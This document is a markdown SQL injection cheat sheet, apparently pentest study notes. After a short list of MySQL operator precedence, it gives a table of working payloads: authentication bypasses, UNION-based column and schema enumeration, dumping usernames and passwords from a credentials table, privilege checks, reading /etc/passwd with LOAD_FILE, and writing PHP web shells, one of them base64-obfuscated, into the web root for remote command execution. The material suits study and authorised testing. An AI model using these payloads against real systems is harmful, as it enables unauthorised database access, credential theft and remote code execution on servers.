 ## MySQL Operator Precedence

- Division (`/`), Multiplication (`*`), and Modulus (`%`)
- Addition (`+`) and Subtraction (`-`)
- Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
- NOT (`!`)
- AND (`&&`)
- OR (`||`)

## SQL Injection

| **Payload** | **Description** |
| --- | --- |
| **Auth Bypass** |     |
| `admin' or '1'='1` | Basic Auth Bypass |
| `admin')-- -` | Basic Auth Bypass With comments |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |     |
| **Union Injection** |     |
| `' order by 1-- -` | Detect number of columns using `order by` |
| `cn' UNION select 1,2,3-- -` | Detect number of columns using Union injection |
| `cn' UNION select 1,@@version,3,4-- -` | Basic Union injection |
| `UNION select username, 2, 3, 4 from passwords-- -` | Union injection for 4 columns |
| **DB Enumeration** |     |
| `SELECT @@version` | Fingerprint MySQL with query output |
| `SELECT SLEEP(5)` | Fingerprint MySQL with no output |
| `cn' UNION select 1,database(),2,3-- -` | Current database name |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | List all databases |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` | List all tables in a specific database |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | List all columns in a specific table |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -` | Dump data from a table in another database |
| **Privileges** |     |
| `cn' UNION SELECT 1, user(), 3, 4-- -` | Find current user |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | Find if user has admin privileges |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -` | Find if all user privileges |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |
| **File Injection** |     |
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | Read local file |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` | Write a string to a local file |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory **VIA REQUEST** |
| cn' UNION SELECT NULL,"&lt;?php system($\_GET\['cmd'\]); ?&gt;",NULL,NULL,NULL,NULL into outfile '/var/www/html/revshell.php'-- - | http://ELITE/revshell.php?cmd=ls |
| cn' UNION SELECT NULL,"&lt;?php system(base64_decode($\_GET\['cmd'\])); ?&gt;",NULL,NULL,NULL,NULL into outfile '/var/www/html/secret.php'-- - | http://ELITE/secret.php?cmd=bHM= |
